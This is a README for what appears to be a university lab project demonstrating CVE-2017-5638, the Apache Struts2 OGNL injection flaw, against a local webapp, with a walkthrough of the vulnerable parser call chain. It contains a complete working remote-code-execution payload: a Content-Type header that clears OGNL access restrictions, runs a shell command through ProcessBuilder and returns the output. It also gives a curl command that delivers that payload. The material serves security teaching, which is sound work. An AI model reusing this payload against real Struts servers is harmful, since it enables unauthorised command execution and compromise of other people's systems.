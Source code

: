 # Apache Struts2 Vulnerability | CVE-2017-5638 | Version 2.5

## Disclaimer

*This is meant for educational, and research purposes only. I do not authorize or endorse any illegal or unethical use of this projects contents or information*

## Instructions

To run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (http://localhost:8080/MSCybersecurity)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    //  OGNL expression to instantiate Command obj
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity'))
  
The edu.uvu.ms.cybersecurity.Command class

    // Command simply prints the cmd argument passed from the OGNL expression
    public class Command {
      private Object cmd;
      
      public Command(Object cmd){
        this.cmd = cmd;
      }

      private void print(){
          System.out.println("OGNL recieved cmd: "+this.cmd);
      }
      
      public void print(String loc){
          System.out.println("OGNL recieved cmd: "+this.cmd+" from "+loc);
      }
    }
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


Deliver the payload with CURL

    curl -H "Content-Type:  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#p.print('hello from MSCybersecurity')).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" -X POST http://localhost:8080/MSCybersecurity/exploit

A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPart library and invokes the *MultiPartRequestWrapper()* constructor
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

he OGNL expression from the Content-Type header is then passed into the *parse()* method. Because the header information is bad, the parser will raise an exception and call the *buildErrorMessage()* method 

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

The *buildErrorMessage()* method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class *findText()* method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The LocalizedTextUtil.class findText method will in turn call *getDefaultMessage()* and pass in the Content-Type information 

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The *getDefaultMessage()* message will then delegate to TextParseUtil.class *translateVariables()* method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class *translateVariables()* method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
